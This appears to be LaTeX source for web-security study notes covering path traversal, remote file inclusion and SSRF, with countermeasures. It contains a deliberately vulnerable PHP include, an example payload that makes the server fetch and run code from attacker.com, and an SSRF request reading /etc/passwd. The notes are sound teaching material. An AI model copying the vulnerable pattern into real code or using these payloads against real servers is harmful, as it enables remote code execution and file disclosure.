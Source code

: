 \documentclass[11pt]{article}
\begin{document}
\subsection{Path Traversal}
Attacker input can cause the server to disclose an unintended resource (e.g. \texttt{/etc/passwd}).
The server identifies a resource based on user input, so the attacker requests files likely to exist and unlikely to exist, comparing the responses - the attacker can guess the path to a private resource in the URL.

Countermeasures:
\begin{itemize}
  \item Special \texttt{www} user account for web app server with access only to public files.
  \item \texttt{chroot} jail to sandbox the web app process to a virtual file system.
  \item Access control restrictions.
\end{itemize}

\subsection{Remove File Inclusion}
We may include in our \texttt{index.php}:
\begin{verbatim}
  $nextpage = $_REQUEST["subpage"];
  include($nextpage.".php");
\end{verbatim}
with the intended usage of \texttt{subpage} in the URL being a page on the site.
If the \texttt{php.ini} settings have \texttt{allow\_url\_fopen = 1}, then file operations can follow urls:
\begin{enumerate}
  \item Attacker can put in the url \texttt{...subpage=http://attacker.com/evil}.
  \item The server includes, and therefore executes, the external file.
\end{enumerate}

To be more secure, we should only allow \texttt{subpage} to have a value from a whitelist of allowed page names, preventing any arbitrary input.

\subsection{Server-side Request Forgery}
If the attacker can control the parameter that becomes the URL of the request issued by the server, then they can access information beyond the firewall as the server requests have server privileges and can address the internal network.
e.g.\ \texttt{GET /?url=file:///etc/passwd HTTP/1.1}
\end{document}
